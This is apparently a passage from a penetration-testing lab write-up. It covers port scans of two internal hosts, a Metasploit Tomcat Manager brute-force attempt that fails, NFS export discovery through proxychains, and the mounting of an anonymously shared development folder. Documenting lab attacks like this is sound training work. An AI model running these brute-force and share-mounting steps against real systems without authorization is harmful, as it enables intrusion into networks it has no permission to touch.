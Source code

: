 ### 🖥️ 172.16.8.50 - Tomcat Server Analysis
```bash
# Port enumeration:
135/tcp  open  epmap       # RPC endpoint mapper
139/tcp  open  netbios-ssn # NetBIOS session service
445/tcp  open  microsoft-ds # SMB
3389/tcp open  ms-wbt-server # RDP
8080/tcp open  http-alt     # Tomcat

# Tomcat Manager brute force attempt:
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 172.16.8.50
set STOP_ON_SUCCESS true
run
# Result: No successful authentication (hardened)
```

### 🌐 172.16.8.20 - Windows Server + NFS
```bash
# Port enumeration:
80/tcp   open  http        # DotNetNuke (DNN)
111/tcp  open  sunrpc      # RPC port mapper
135/tcp  open  epmap       # RPC endpoint mapper
139/tcp  open  netbios-ssn # NetBIOS session service
445/tcp  open  microsoft-ds # SMB
2049/tcp open  nfs         # Network File System
3389/tcp open  ms-wbt-server # RDP

# NFS share discovery:
proxychains showmount -e 172.16.8.20
# Result: /DEV01 (everyone) - anonymous access enabled
```

## 📁 NFS Share Exploitation

### 🔍 NFS Misconfiguration Assessment
```bash
# NFS export enumeration
showmount -e 172.16.8.20
# Output: Export list for 172.16.8.20: /DEV01 (everyone)

# Mount NFS share (from pivot host)
mkdir /tmp/DEV01
mount -t nfs 172.16.8.20:/DEV01 /tmp/DEV01

# Share content analysis
ls -la /tmp/DEV01/
# Discovered:
BuildPackages.bat
CKToolbarButtons.xml  
DNN/                    # DotNetNuke directory
WatchersNET.CKEditor.sln
```
